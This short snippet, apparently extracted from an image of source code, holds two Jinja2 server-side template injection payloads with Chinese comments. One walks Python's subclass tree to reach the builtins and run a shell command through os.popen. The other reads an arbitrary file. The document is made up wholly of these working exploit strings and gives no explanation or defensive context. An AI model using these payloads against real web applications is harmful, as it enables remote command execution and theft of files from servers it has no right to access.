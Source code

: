 ```
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```